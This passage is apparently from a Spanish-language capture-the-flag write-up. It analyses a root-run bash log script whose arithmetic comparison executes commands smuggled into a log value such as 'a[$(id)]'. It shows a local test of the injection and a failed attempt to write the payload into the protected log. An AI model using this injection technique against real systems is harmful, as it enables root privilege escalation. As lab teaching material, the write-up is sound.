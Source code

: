 Recordemos y analicemos el script de `bash` que habíamos encontrado en la primer enumeración bajo la ruta `/opt`.

El script `log_analyse.sh` contiene la siguiente función que utiliza una condición `if` empleando `-eq`

~~~ bash
analyze_http_statuses() {
    # Process HTTP status codes
    while IFS= read -r line; do
        code=$(echo "$line" | grep -oP 'Status: \K.*')
        found=0
        # Check if code exists in STATUS_CODES array
        for i in "${!STATUS_CODES[@]}"; do
            existing_entry="${STATUS_CODES[$i]}"
            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
            if [[ "$existing_code" -eq "$code" ]]; then
                new_count=$((existing_count + 1))
                STATUS_CODES[$i]="${existing_code}:${new_count}"
                break
            fi
        done
    done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
~~~

El problema surge cuando `if [[ "$existing_code" -eq "$code" ]]` hace la comparación con la variable `$code`, donde es posible ejecutar comandos dentro de esta expresión:

- `-eq` compara dos enteros, esperando expresiones aritméticas
- En este contexto, si `$code` tiene un valor como `x[$(id)]`, se interpreta como una expresión aritmética válida, donde finalmente se ejecuta el comando contenido dentro de `$()`

Sabiendo esto, si hacemos una pequeña prueba con el siguiente comando, comprobaremos que se ejecuta `id` si intentamos simular el comportamiento del script, donde se envía el contenido que espera pero en vez de un código de estado enviamos la expresión maliciosa

~~~ bash
miranda-wise@eureka:~$ echo "HTTP Status: a[$(id)]" | grep -oP 'Status: \K.*'
[uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)]
~~~

Si volvemos a lanzar `pspy` veremos un proceso que ejecuta este script, y se utiliza el archivo de logs del micr-servicio `user-management-service`

~~~ bash
2025/08/30 23:38:01 CMD: UID=0     PID=483200 | /bin/bash /opt/log_analyse.sh /var/www/web/user-management-service/log/application.log
~~~

Si intentamos modificar directamente el archivo `application.log`, nos denegará el acceso debido a permisos

~~~ bash
miranda-wise@eureka:~$ echo 'HTTP Status: a[$(id)]' > /var/www/web/user-management-service/log/application.log

-bash: /var/www/web/user-management-service/log/application.log: Permission denied
~~~
